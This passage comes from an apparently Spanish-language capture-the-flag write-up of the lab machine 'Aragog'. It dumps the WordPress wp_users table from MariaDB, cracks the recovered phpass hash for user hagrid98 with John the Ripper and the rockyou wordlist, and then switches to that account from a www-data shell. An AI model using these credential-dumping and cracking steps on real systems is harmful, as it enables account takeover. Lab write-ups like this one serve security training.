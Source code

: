 ```bash
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
| wp_wpfm_backup        |
+-----------------------+
13 rows in set (0.000 sec)
```

Ahora, veamos el contenido de la tabla **wp_users**:
```bash
MariaDB [wordpress]> select * from wp_users;      
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email               | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | hagrid98   | $P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc. | wp-admin      | hagrid98@localhost.local |          | 2021-03-31 14:21:02 |                     |           0 | WP-Admin     |
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.000 sec)
```
Muy bien, tenemos el hash de la contraseña del usuario hagrid98.

Vamos a copiarlo y a crackearlo con la herramienta **JohnTheRipper**:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash_Hagrid
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
....      (?)     
1g 0:00:00:00 DONE (2024-11-06 15:25) 11.11g/s 16000p/s 16000c/s 16000C/s camilo..michel
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```
Qué basura de contraseña puso hagrid.

Comprobemos si la contraseña es correcta:
```bash
www-data@Aragog:/home$ su hagrid98
Password: 
hagrid98@Aragog:/home$ whoami
hagrid98
```
Hemos obtenido acceso al usuario **hagrid98**.
